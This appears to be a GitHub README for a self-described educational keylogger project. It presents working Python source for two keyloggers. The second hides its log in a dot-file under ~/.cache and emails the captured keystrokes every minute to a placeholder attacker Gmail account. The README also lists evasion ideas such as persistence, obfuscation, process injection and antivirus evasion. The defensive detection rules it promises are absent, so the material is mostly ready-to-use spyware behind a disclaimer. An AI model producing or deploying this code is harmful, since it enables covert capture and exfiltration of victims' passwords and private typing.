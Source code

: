 # 🕵️‍♂️ Python Keylogger Simulation — Educational Project

![Python](https://img.shields.io/badge/Made%20with-Python-blue)
![Status](https://img.shields.io/badge/Status-Development-orange)
![License](https://img.shields.io/badge/License-Educational%20Use-green)

---

## 🎯 About This Project

This repository demonstrates how **keylogging techniques work** from an attacker's perspective and more importantly, how defenders can detect and mitigate them.

**⚠️ For Educational & Ethical Research Purposes Only!**  
This project was created to **learn, simulate, and defend** — NOT for illegal usage.

---

## 🚀 Project Structure

| Version | Description |
|:-:|:-|
| **v1** | Basic keylogger — captures keystrokes and stores them locally in a `.txt` file |
| **v2** | Enhanced keylogger — captures keystrokes & exfiltrates logs to an email account + saves hidden backup log |
| **v3** | 🚧 Coming soon — YARA Detection Rule & Dynamic Anti-Keylogger Monitor |

---

## 📄 Code & Explanation

### 🎯 Version 1 — Basic Keylogger

```python
from pynput import keyboard

def on_press(key):
    with open("keylog.txt", "a") as log:
        try:
            log.write(f"{key.char}")
        except AttributeError:
            log.write(f" [{key}] ")

listener = keyboard.Listener(on_press=on_press)
listener.start()
listener.join()
```

<p align="justify"> <b>📝 Explanation:</b><br> This is a very basic Python keylogger that captures every keystroke entered by the user. It uses the <code>pynput</code> library to listen to keyboard events and stores the logs in a local file named <code>keylog.txt</code>. Special keys like Enter, Space, or Ctrl are stored in <code>[KEY]</code> format. </p>

import pynput.keyboard
import threading
import smtplib
import os

log = ""
log_dir = os.path.expanduser("~/.cache")
os.makedirs(log_dir, exist_ok=True)
log_file = os.path.join(log_dir, ".syslog_hidden")

def on_press(key):
    global log
    try:
        log += key.char
    except AttributeError:
        log += f" [{key}] "

def send_mail():
    global log
    if log:
        try:
            server = smtplib.SMTP("smtp.gmail.com", 587)
            server.starttls()
            server.login("attackerEmail@gmail.com", "attackerPassword")
            server.sendmail("attackerEmail@gmail.com", "attackerEmail@gmail.com", log)
            server.quit()
        except:
            pass
        with open(log_file, "a") as f:
            f.write(log + "\n")
        log = ""
    
    timer = threading.Timer(60, send_mail)
    timer.start()

keyboard_listener = pynput.keyboard.Listener(on_press=on_press)
keyboard_listener.start()
send_mail()
keyboard_listener.join()
```

<p align="justify"> <b>📝 Explanation:</b><br> This enhanced version of the keylogger not only captures every keystroke but also sends the recorded logs to an attacker's Gmail account every 60 seconds using the <code>smtplib</code> module. Additionally, it saves a backup copy of the logs in a hidden file <code>.syslog_hidden</code> under the user's <code>.cache</code> directory. The script uses multithreading to send logs without interrupting the keylogging process. </p>

💡 Advanced Possibilities (Future Work)
In real-world scenarios, attackers may extend this project to:

🔸 Add persistence mechanisms (Startup Folder, Registry)

🔸 Use Base64 obfuscation or packing to avoid detection

🔸 Exfiltrate logs via Telegram, Discord, Webhooks

🔸 Perform process injection

🔸 Evade antivirus detection using stealth techniques

In this project, I will soon publish: ✅ YARA Detection Rule
✅ Real-time Anti-Keylogger Dynamic Defense Script


☕️ Support My Cybersecurity Learning Journey
<p align="center"> <a href="https://buymeacoffee.com/sudersen" target="_blank"> <img src="https://cdn.buymeacoffee.com/buttons/v2/default-yellow.png" height="50" width="210" alt="Buy Me A Coffee" /> </a> </p>

⚠️ Disclaimer
This project is strictly for educational, research, and ethical hacking learning purposes only.
Unauthorized use, distribution, or misuse of this code for malicious intent is illegal and unethical.
Always test this project in your own controlled lab environments.

📩 Feedback & Collaboration
If you're interested in collaborating, learning, or enhancing detection techniques — feel free to connect:

🔗 LinkedIn: www.linkedin.com/in/drsudersen
☕️ Buy Me a Coffee :  https://buymeacoffee.com/sudersen
